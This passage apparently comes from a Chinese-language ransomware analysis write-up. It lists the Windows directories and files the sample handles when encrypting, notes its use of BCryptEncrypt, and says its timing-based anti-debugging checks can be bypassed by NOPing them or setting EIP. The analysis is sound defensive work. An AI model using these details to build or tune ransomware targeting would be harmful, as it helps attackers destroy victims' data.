随后会对文件进行加密，判断配置参数中的对驱动和系统文件的加密是否开启，如果开启则只加密下列目录的文件

```
"Windows","Windows.old","PerfLogs","MSOCache","Program Files","Program Files (x86)","ProgramData","\\AppData\\Local\\Temp\\","\\AppData\\LocalLow\\","\\AppData\\Roaming\\","\\Users\\All Users\\""desktop.ini","Thumbs.db"
```


调用了 `BCryptEncrypt` 函数加密并设置文件属性



## 三、反调试

基本上都是运行时间检测，直接nop或者set EIP都可以，有的版本的IDA和xdbg好像会自动暂停GetTickCount